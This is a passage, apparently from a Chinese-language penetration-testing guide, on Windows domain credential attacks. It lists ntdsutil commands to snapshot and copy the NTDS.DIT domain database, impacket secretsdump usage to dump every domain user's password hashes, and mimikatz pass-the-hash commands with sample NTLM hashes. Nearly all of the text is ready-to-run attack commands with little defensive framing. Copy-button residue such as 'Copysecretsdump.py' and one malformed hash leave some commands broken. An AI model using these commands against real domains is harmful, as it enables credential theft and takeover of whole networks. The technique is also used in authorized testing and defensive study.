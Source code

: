 

#### 导出域成员Hash

域账户的用户名和hash密码以域数据库的形式存放在域控制器的 `%SystemRoot%\ntds\NTDS.DIT` 文件中。

这里可以借助：`ntdsutil.exe`，域控制器自带的域数据库管理工具，我们可以通过域数据库，提取出域中所有的域用户信息，在域控上依次执行如下命令，导出域数据库：

```powershell
#创建快照
ntdsutil snapshot "activate instance ntds" create quit quit

#加载快照
ntdsutil snapshot "mount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit

#文件副本
copy C:\$SNAP_201911211122_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit
```

将ntds.dit文件拷贝到本地利用impacket脚本dump出Hash：

```sql
Copysecretsdump.py -ntds.dit -system system.hive LOCAL
```

最后记得卸载删除快照：

```bash
ntdsutil snapshot "unmount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
ntdsutil snapshot "delete  {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
```



#### secretsdump脚本直接导出域hash

> 可以直接导出，说白了，简单粗暴：

```perl
Copypython secretsdump.py rabbitmask:123456@192.168.15.181
```

首先它会导出本地SAM中的hash，然后是所有域内用户的IP，全部获取成功





### 哈希传递攻击(PTH)

#### 工作组环境

当我们获得了一台主机的NTLM哈希值，我们可以使用mimikatz对其进行哈希传递攻击。执行完命令后，会弹出cmd窗口。

```bash
#使用administrator用户的NTLM哈希值进行攻击
sekurlsa::pth /user:administrator /domain:192.168.10.15 /ntlm:329153f560eb329c0e1deea55e88a1e9
```

```bash
#使用test用户的NTLM哈希值进行攻击
sekurlsa::pth /user:test /domain:192.168.10.15 /ntlm:329153f560eal81eea55e66a1e8
```
